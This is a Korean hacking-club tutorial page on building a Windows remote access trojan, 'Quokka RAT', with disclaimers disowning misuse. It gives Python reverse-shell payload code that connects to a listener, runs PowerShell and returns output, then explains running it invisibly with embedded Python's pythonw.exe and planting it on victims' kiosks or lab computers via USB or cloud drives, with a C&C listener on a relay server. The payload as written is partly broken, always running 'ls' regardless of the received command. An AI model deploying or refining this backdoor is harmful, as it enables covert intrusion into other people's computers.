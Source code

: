 # Quokka RAT : Windows Embeded Python

<aside>
⚠️ author : 김철수(blackChsu) 2024-03-17

</aside>

<aside>
⚠️ **주의** : 악성코드를 악용하여 개인적/법적 문제가 발생하는 경우, 동아리와는 아무 관련이 없으며 개인의 책임임을 고지합니다.

</aside>

<aside>
⚠️ **주의** : 이 페이지는 실습해보지 않아도 됩니다.
다시 한번 말하지만, 블랙 해킹을 장려하거나 지시한 적 없습니다.

</aside>

# Quokka RAT Windows

리눅스에서 작동하는 RAT 을 제작해봤습니다.

Windows 버전의 Quokka RAT 을 이용하여 Windows 가 설치된 키오스크나 실습실 컴퓨터 등의 노출된 곳에 백도어를 만들 수 있습니다.

![Untitled](Untitled%20608.png)

![Untitled](Untitled%20609.png)

# Payload

powershell 을 실행하는 subprocess() 함수는 아래와 같으니,

```bash
## https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/
import subprocess

# PowerShell을 사용하여 ls 명령어 실행
result = subprocess.run(['powershell.exe', '-Command', 'ls'], stdout=subprocess.PIPE, text=True)

# 결과 출력
print(result.stdout)

```

이것이 Windows 용 페이로드입니다.

```bash
import socket
import subprocess
import time
h="172.17.0.3"
p=8282

while True:
    try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((h,p))
        while True:
            c=s.recv(1024).decode()
            # PowerShell을 사용하여 ls 명령어 실행
            output=subprocess.run(['powershell.exe', '-Command', 'ls'], stdout=subprocess.PIPE, text=True)
            result=output.stdout
            if(result==''):
                s.send("suc".encode())
            else:
                s.send(result.encode())
    except Exception as e:
        time.sleep(5)
```

# Embeded Python

공격대상 시스템에 python 이 설치되어있다면 상관없지만, 없는 경우 악성코드를 실행하는 것이 불가능합니다.

Embeded Python 은, 무설치 버전의 파이썬으로, exe 단독으로 동작합니다.

- 파이썬 공식 홈페이지에서 다운받을 수 있습니다.

[EmbeddedPython - Python Wiki](https://wiki.python.org/moin/EmbeddedPython)

![Untitled](Untitled%20610.png)

![Untitled](Untitled%20611.png)

![Untitled](Untitled%20612.png)

# Windows 에서 백그라운드로 python 실행

리눅스의 python 실행은 python3 라는 바이너리를 실행하여 이루어집니다.

- 리눅스에서의 python 백그라운드 실행은, python3 명령어 뒤에 & 를 붙여서 실행합니다.

Windows 에서는 그와 다르게, python.exe 와 pythonw.exe 가 존재합니다.

- python.exe 로 코드를 실행하면, 검은색 터미널 (cmd 또는 powershell) 이 뜨면서 실행됩니다.
- pythonw.exe 로 코드를 실행하면, 검은색 터미널 없이 코드만 백그라운드로 실행됩니다.

테스트를 위해 [test.py](http://test.py) 를 만들고, 아래와 같이 적습니다.

- 30초 대기 후, 프로세스가 자동종료됩니다.

```python
import time

print("Hello")
time.sleep(30)
```

python 명령어는 python.exe 를 실행합니다. 경로는 시스템환경변수를 따릅니다.

아래와 같이, 콘솔창에서 실행됩니다.

![Untitled](Untitled%20613.png)

pythonw 명령어는 pythonw.exe 를 실행합니다. 경로는 시스템환경변수를 따릅니다.

아래와 같이, 콘솔을 꺼도 실행됩니다.

![Untitled](Untitled%20614.png)

백그라운드에서 실행중이므로, “Windows 작업관리자” 에서만 확인할 수 있습니다.

- Windows 작업관리자는 리눅스에서 ps -ef 와 동일한 작동을 합니다. 현재 프로세스를 보여줍니다.

Ctrl + Alt + Del 로 작업관리자를 열고, python 으로 검색해보면 백그라운드 프로세스를 찾을 수 있습니다.

![Untitled](Untitled%20615.png)

이것을 응용하면,

- Embeded Python 에서 pythonw.exe 를 복사해서 USB 에 담는다.
- Windows 용 Quokka RAT 의 페이로드를 USB 에 담는다.
- 희생자의 Windows 컴퓨터에서 실행한다.

또는,

- google Drive 나 Dropbox 를 이용해 Embeded Python pythonw.exe 와 페이로드를 전달한다

등을 이용하여 페이로드를 심고, AWS 등의 중계서버에 C&C 리스너를 설치하고 외부에서 리버스쉘로 침투할 수 있습니다.

하지만 하지마세요.

끝